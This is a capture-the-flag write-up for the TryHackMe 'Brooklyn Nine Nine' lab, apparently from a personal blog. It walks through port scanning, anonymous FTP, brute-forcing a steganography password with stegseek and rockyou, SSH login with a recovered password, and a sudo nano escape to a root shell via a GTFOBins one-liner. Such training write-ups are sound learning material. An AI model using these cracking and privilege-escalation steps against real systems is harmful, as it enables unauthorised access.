 ```yaml
---
title: TryHackMe Brooklyn Nine Nine [CHALLENGE]
date: 2024-03-14 00:00:00 +0800
categories: [TryHackMe, Challenge]
tags: [walkthough,write-ups]     # TAG names should always be lowercase
image:
    path: https://tryhackme-images.s3.amazonaws.com/room-icons/95b2fab20e29a6d22d6191a789dcbe1f.jpeg
---
```


This room is aimed for beginner level hackers but anyone can try to hack this box. There are two main intended ways to root the box.

## **Reconnaissance**
---
Initially do the Nmap scan.

```bash
nmap -sC -sV -p- $IP --open
```
`--open`: Scans only the open ports and reduces the time it takes to complete the nmap scan.


```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-13 04:31 EDT
Stats: 0:00:44 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 30.15% done; ETC: 04:33 (0:01:42 remaining)
Nmap scan report for 10.10.145.160
Host is up (0.30s latency).
Not shown: 65399 closed tcp ports (conn-refused), 133 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.13.50.82
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 114.31 seconds
```

## **Insights and To-TRY List**
---
OS: Ubuntu

TARGET IP: 10.10.145.160

80 → HTTP

- There is a clue from the source code about **steganography**
- The background image is password protected

21 → FTP

- Anonymous login is allowed
- There is a note saying that Jake has a weak password. From Amy.

22 → SSH

- There are possible 3 usernames.
    - Amy:?
    - Jake:?
    - Holts. Is this another username
        - Extracted from the background image.
- Found a password
    - holt: fluffydog12@ninenine

## **Enumeration**
---
### 80 HTTP

Viewing the page source code

![Desktop View](/assets/images/brooklyn/source-code.png){: width="972" height="589" }

It looks like we will be using some steganography tools. Maybe from the background image of the webpage since there is a big emphasis on how the background image follows the screen resolution. But how do we get the file?

![Desktop View](/assets/images/brooklyn/get-file.png){: width="972" height="589" }

Looking at the source code, the `url()` function is used to include an external resource. In this case, it's referring to an image file named **brooklyn99.jpg**. We can access it by:

```bash
http://10.10.145.160/brooklyn99.jpg
```
Before anything else, read about [Steganography by freecodecamp](https://www.freecodecamp.org/news/what-is-steganography-hide-data-inside-data/) first.

We need to extract what's hidden from the background image using steghide. You can use the --help page for steghide if you don't understand the flag being used.

```bash
steghide extract -sf brooklyn99.jpg -xf image-extract.txt
```

And it looks like the image is password protected. Let us use stegseek to bruteforce the password.

```bash
stegseek --crack brooklyn99.jpg /usr/share/wordlists/rockyou.txt
```
![Desktop View](/assets/images/brooklyn/stegseek.png){: width="972" height="589" }

**Use the steghide again** to extract the information from the background image and enter the password we got from bruteforcing using `stegseek`. Once extracted, view the text file.

```bash
steghide extract -sf brooklyn99.jpg -xf image-extract.txt
```
![Desktop View](/assets/images/brooklyn/steghide.png){: width="972" height="589" }

GOOD DOG! Cheddar!! We got the password, but who uses that? We can search for possible usernames in the FTP.

### 21 FTP

```bash
ftp <IP>
```
![Desktop View](/assets/images/brooklyn/ftp.png){: width="972" height="589" }

```bash
ls -la
```
![Desktop View](/assets/images/brooklyn/ls.png){: width="972" height="589" }

```bash
get <FILENAME>
```
![Desktop View](/assets/images/brooklyn/getfile.png){: width="972" height="589" }

Go back to working directory of the attack machine and view the text file.

![Desktop View](/assets/images/brooklyn/weak.png){: width="972" height="589" }

Can we hail hydra? Or Just use the credentials we just found from the text file hiding in the background image and the text file we got from the FTP.




## **Gaining an Initial Foothold**
---

Login via SSH. I tried using holt as the username, if it did not work, using hydra would be our best bet. Enter the password when prompted.

```bash
ssh holt@<IP>
```
![Desktop View](/assets/images/brooklyn/ssh.png){: width="972" height="589" }

> Do not forget to find the FLAGS
{: .prompt-danger }


## **Privilege Escalation**
---

I initially checked `sudo -l` command to list the permissions granted to the current user in the sudoers file.

![Desktop View](/assets/images/brooklyn/sudo.png){: width="972" height="589" }

It looks like our user is allowed to run `nano` as a superuser without a password. This means that we can open the final flag by leveraging the `sudo` command or just use the code below from GTFO bins to **spawn a root shell**.

![Desktop View](/assets/images/brooklyn/sudo-nano.png){: width="972" height="589" }

Using GTFOBins
```bash
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

```bash
Ctrl + R
```
Nano allows inserting external files into the current one using the shortcut

```bash
Ctrl + X
```
This command allows us to execute system level commands using

```bash
reset; sh 1>&0 2>&0
```
Allows us to spawn a shell

![Desktop View](/assets/images/brooklyn/root-gtfo.png){: width="972" height="589" }

![Desktop View](/assets/images/brooklyn/pwned.png){: width="972" height="589" }


> Do not forget to find the FLAGS
{: .prompt-danger }

## **Take Away Concepts**
- Understand steganography. Sometimes, these pictures might have the passwords or hints you need to get on top of the machine.
- Always check websites or web apps carefully by yourself. View the page source!
- If the binary /bin/nano has extra permissions, you can use this to your advantage to escalate your privilege. Make sure you understand how this trick works instead of just copying blindly from GTFObins.
- Pay close attention to any hints given.
- Don't worry about checking different network services if you're stuck. You can always take notes and come back later.
- Trying to bruteforce passwords right away isn't the best first step. Make sure you've tried all other options first to gain an initial foothold!